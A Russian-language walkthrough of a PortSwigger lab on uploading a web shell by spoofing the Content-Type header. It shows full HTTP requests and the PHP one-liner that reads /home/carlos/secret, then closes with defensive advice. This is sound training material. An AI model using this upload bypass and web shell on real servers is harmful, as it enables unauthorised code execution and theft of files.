

### Проверка несовершенного типа файла

При отправке HTML-форм браузер обычно отправляет предоставленные данные в `POST`-запросе с типом контента `application/x-www-form-urlencoded`. Это прекрасно подходит для отправки простого текста, такого как ваше имя или адрес. Однако он не подходит для отправки больших объемов двоичных данных, таких как весь файл изображения или PDF-документ. В этом случае предпочтительнее тип контента `multipart/form-data`.

при загрузке файлов некторые системы могут делать проверку загружаемых файлов - на основе типа файла
например разрешать только `image/jpeg` and `image/png`

-----


#### Web shell upload via Content-Type restriction bypass
лаба https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass

задание: через загрузку файлов внедрить веб-шел для получения файла /home/carlos/secret

-----

на сайте - есть форму для загрузки картинок


и вот мой запрос на загрузку svg файла на сервер

```http
POST /my-account/avatar HTTP/2
Host: 0ac70088032e78d4860422f800260059.web-security-academy.net
Cookie: session=qLXG4LDHtIW6cYAt5svGrIPWuuymuRR8
Content-Length: 20150
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0ac70088032e78d4860422f800260059.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfmjAGAqG5pOr9K3b
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ac70088032e78d4860422f800260059.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg"
Content-Type: image/svg+xml

<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
<g clip-path="url(#clip0_129_28)">
<rect width="136" height="136" fill="white"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446

обрезал часть
5.5541Z" fill="white"/>
</g>
<g filter="url(#filter1_d_129_28)">
<path d="M25.8817 120.441L23.7039 121.21L21.1125 122.031C21.0894 122.039 21.0654 122.042 21.0413 122.0
обрезал часть
" fill="white"/>
</g>
<g filter="url(#filter2_d_129_28)">
<path d="M64.3791 
обрезал часть
99.1744Z" fill="white"/>
</g>
</g>
<defs>
<filter id="filter0_d_129_28" x="39.4961" y="39.5977" width="67.9531" height="75.3945" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter1_d_129_28" x="15.9688" y="25.8984" width="86.2969" height="105.617" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<filter id="filter2_d_129_28" x="39.8203" y="27.3066" width="81.6758" height="94.459" filterUnits="userSpaceOnUse" color-interpolation-filters="sRGB">
<feFlood flood-opacity="0" result="BackgroundImageFix"/>
<feColorMatrix in="SourceAlpha" type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 127 0" result="hardAlpha"/>
<feOffset dy="4"/>
<feGaussianBlur stdDeviation="2"/>
<feComposite in2="hardAlpha" operator="out"/>
<feColorMatrix type="matrix" values="0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0.25 0"/>
<feBlend mode="normal" in2="BackgroundImageFix" result="effect1_dropShadow_129_28"/>
<feBlend mode="normal" in="SourceGraphic" in2="effect1_dropShadow_129_28" result="shape"/>
</filter>
<linearGradient id="paint0_linear_129_28" x1="34.4658" y1="102.508" x2="42.8616" y2="141.434" gradientUnits="userSpaceOnUse">
<stop offset="1"/>
</linearGradient>
<linearGradient id="paint1_linear_129_28" x1="68.0548" y1="-34.6861" x2="68.0548" y2="107.54" gradientUnits="userSpaceOnUse">
<stop stop-color="#F5F5F5"/>
<stop offset="0.452924" stop-color="#44A050"/>
<stop offset="1" stop-color="#171A17"/>
</linearGradient>
<clipPath id="clip0_129_28">
<rect width="136" height="136" fill="white"/>
</clipPath>
</defs>
</svg>

------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="csrf"

36JIiGnF30IdmJLqQXheD4JWz00Sj0ps
------WebKitFormBoundaryfmjAGAqG5pOr9K3b--

```

но получил ошибку 403!!!!
`Sorry, file type image/svg+xml is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.`

хочет jpeg или png

------

ну что же, мне этого достаточно!

----

сейчас я тупо поменял это 
добавив  image/png и  filename="Frame 14.png

```
------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="avatar"; filename="Frame 14.png"
Content-Type: image/png
```

и загрузит тот же самый svg файл, и овтет 200 
```http
HTTP/2 200 OK
Date: Thu, 19 Mar 2026 09:29:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 133

The file avatars/Frame 14.png has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>

```
-------

то есть, все что нужно это поменять тип? и сервер верит этому?

----

------

apache и nginx по умолчанию настроены на выполнение php, потому что это основной язык для веба на многих хостингах  
python и js обычно не выполняются напрямую сервером - для python нужен wsgi, для js нужен node.js

---------

ну и вот запрос на скачивание этого файла с сервера 
`GET /files/avatars/Frame%2014.png HTTP/2`
в ответе приходит просто код того svg файла, что я загрузил

-----

теперь пришло время - закинуть туда веб-шел!

---

`<?php echo file_get_contents('/home/carlos/secret'); ?>`

запрос
```http
POST /my-account/avatar HTTP/2
Host: 0ac70088032e78d4860422f800260059.web-security-academy.net
Cookie: session=qLXG4LDHtIW6cYAt5svGrIPWuuymuRR8
...
... сократил для отчета
Priority: u=0, i

------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="avatar"; filename="Frame 14.png" 👈
Content-Type: image/png 👈

<?php echo file_get_contents('/home/carlos/secret'); ?> 👈👈

------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="csrf"

36JIiGnF30IdmJLqQXheD4JWz00Sj0ps
------WebKitFormBoundaryfmjAGAqG5pOr9K3b--

```
ответ 200 - файл загружен

пытаюсь загрузить файл обратно по `GET /files/avatars/Frame%2014.png HTTP/2`
но в ответе просто отразился мой пейлоад как тектс
```http
HTTP/2 200 OK
Date: Thu, 19 Mar 2026 09:34:02 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Thu, 19 Mar 2026 09:33:48 GMT
Etag: "38-64d5d43ff45bf"
Accept-Ranges: bytes
Content-Type: image/png
X-Frame-Options: SAMEORIGIN
Content-Length: 56

<?php echo file_get_contents('/home/carlos/secret'); ?>

```

--------

пробую поменять на PHP
```http
POST /my-account/avatar HTTP/2
Host: 0ac70088032e78d4860422f800260059.web-security-academy.net
Cookie: session=qLXG4LDHtIW6cYAt5svGrIPWuuymuRR8
Content-Length: 463
... ... ...
Priority: u=0, i

------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="avatar"; filename="Frame 14.php"
Content-Type: image/php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="csrf"

36JIiGnF30IdmJLqQXheD4JWz00Sj0ps
------WebKitFormBoundaryfmjAGAqG5pOr9K3b--

```
ответ 200

и при попытке загрузки `GET /files/avatars/Frame%2014.php HTTP/2` файла получаю
```html
HTTP/2 404 Not Found
Date: Thu, 19 Mar 2026 09:46:12 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=iso-8859-1
X-Frame-Options: SAMEORIGIN
Content-Length: 274

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 498e6b7a4ddd Port 80</address>
</body></html>


```

типо дирректория не та.. странно
значит файла нет


--------

сделал так 
Content-Disposition c php
Content-Type c pgn
```http
------WebKitFormBoundaryfmjAGAqG5pOr9K3b
Content-Disposition: form-data; name="avatar"; filename="Frame 14.php"
Content-Type: image/png
```
загрузил

делаю запрос на `GET /files/avatars/Frame%2014.php HTTP/2`
и получаю секрет в ответе i3TFYeFibasxVJfEmXCni2JeGfbxDYQj




 

получается, что сервер проверял только  `Content-Type: image/png`
а вот содержимое файла нет, и разрешал код внутри выполнять..

лаба решена!!!

-------
#### вывод

я смог взломать эту лабу - потому что сервер доверял только заголовку content-type и не проверял реальное содержимое файла  

он явно блокировал загрузку всего кроме image/jpeg и image/png, но это была лишь проверка заголовка  

я просто отправил php-скрипт с заголовком image/png и расширением .php, и сервер пропустил его  

потом я обратился к этому файлу по прямому url и php-код выполнился, отдав секрет карлоса  

сервер даже не посмотрел что внутри файла лежит php, а не png


#### как от этого защититься  

нужно проверять не только заголовок content-type, но и реальное содержимое файла  

для изображений нужно проверять их сигнатуры через функции типа getimagesize или finfo_file  

директории загрузки должны быть настроены на отдачу статики без выполнения кода  

лучше переименовывать файлы в случайные имена и отдавать их через скрипт-прослойку  

использовать белый список разрешенных расширений и проверять что расширение соответствует реальному типу  

не доверять ни одному заголовку из запроса, все они могут быть подменены